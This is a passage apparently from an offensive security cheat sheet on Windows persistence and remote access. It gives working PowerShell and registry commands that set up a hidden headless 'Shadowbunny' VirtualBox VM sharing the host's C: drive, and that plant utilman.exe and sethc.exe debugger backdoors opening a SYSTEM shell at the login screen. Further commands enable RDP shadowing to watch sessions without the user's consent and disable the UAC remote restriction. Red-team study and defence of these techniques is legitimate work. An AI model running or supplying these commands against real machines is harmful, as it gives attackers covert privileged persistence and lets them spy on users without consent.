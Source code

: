 ```ps1
.\VBoxManage.exe modifyvm $vmname --memory 1024 --vram 128
.\VBoxManage.exe modifyvm $vmname --nic1 nat
.\VBoxManage.exe modifyvm $vmname --audio none
.\VBoxManage.exe modifyvm $vmname --graphicscontroller vmsvga
.\VBoxManage.exe modifyvm $vmname --description "Shadowbunny"

# Mount the VHD file
.\VBoxManage.exe storagectl $vmname -name "SATA Controller" -add sata
.\VBoxManage.exe storageattach $vmname -comment "Shadowbunny Disk" -storagectl "SATA Controller" -type hdd -medium "$env:USERPROFILE\VirtualBox VMs\IT Recovery\shadowbunny.vhd" -port 0

# Start the VM
.\VBoxManage.exe startvm $vmname –type headless 


# optional - adding a shared folder
# require: VirtualBox Guest Additions
.\VBoxManage.exe sharedfolder add $vmname -name shadow_c -hostpath c:\ -automount
# then mount the folder in the VM
sudo mkdir /mnt/c
sudo mount -t vboxsf shadow_c /mnt/c



### RDP Backdoor

#### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe
 
Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Remote Desktop Services Shadowing

:warning: FreeRDP and rdesktop don't support Remote Desktop Services Shadowing feature.

Requirements:
* RDP must be running

```powershell
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4
# 4 – View Session without user’s permission.

# Allowing remote connections to this computer
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


# Disable UAC remote restriction
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

mstsc /v:{ADDRESS} /shadow:{SESSION_ID} /noconsentprompt /prompt
```